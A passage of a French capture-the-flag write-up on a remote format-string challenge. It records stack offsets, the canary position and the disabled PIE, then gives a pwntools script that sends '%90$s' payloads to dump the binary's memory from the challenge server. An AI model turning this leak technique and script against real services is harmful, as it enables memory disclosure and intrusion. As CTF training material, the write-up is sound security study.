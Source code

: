 Observations:

* L'endroit où la format string est écrite est à la position 8. L'endroit où elle est récupérée est à la position 88.
* L'aslr est activé.
* Le canari est à la position 71 (la valeur ne ressemble à rien, change à chaque exécution du programme, est fini par 00). Vu que ce qui déclenchait le depassement de stack provient de printf, nous ne pourrons pas faire de rop (il va falloir mettre un \x00, et le reste du payload ne pourra pas être écrit après le canari).
* L'adresse de retour se trouve deux crans après le canari (canari - rbp -rsp) à la position 73. Vu qu'elle commence par 0x400..., le Position Independant Executable n'est pas activé, nous pouvons leak le binaire.

# Step2: leak le binaire.

Vu que le binaire est un x64 et que pie est désactivé, nous pouvons déduire que l'adresse de la section .text est 0x400000. Vu qu'elle comporte un \x00, nous allons nous servir de l'adresse de notre vrai buffer (à la position 88), en ajoutant du padding pour que l'adresse soit bien alignée sur un bloc. Si l'adresse comporte un \n, le binaire arretera de lire l'entrée utilisateur, donc on mettra des NOP à la place dans la mémoire.

```python
from pwn import *
import binascii
import re

leak_binary = True
leaked_binary = b""
if leak_binary:
    with open('extracted.bin','rb') as f:
        leaked_binary = f.read()
    f = open('extracted.bin','ab')
    r = remote('challenge-ecw.fr', 2020, level='error')
    r.recv()
    while 1:
        payload = b'HELO %90$s'+b'BBBBBB'+p64(0x0000000000400000+len(leaked_binary))
        print(payload)
        if b"\n" in payload:
            leaked_binary += b"\x90"
            f.write(b"\x90")
            continue
        r.sendline(payload)
        data = r.recv()
        if data == b'':
            continue
        try:
            leaked = data.split(b'BBBBBB')[0].split(b'Hello ')[1]
        except:
            continue
        if leaked == b"(null)":
            leaked_binary += b"\x00"*8
            f.write(b"\x00"*8)
        elif len(leaked) == 0:
            leaked_binary += b"\x00"
            f.write(b"\x00")
        else:
            leaked_binary += leaked+b"\x00"
            f.write(leaked+b"\x00")
        #print(leaked_binary)
        f.flush()
```
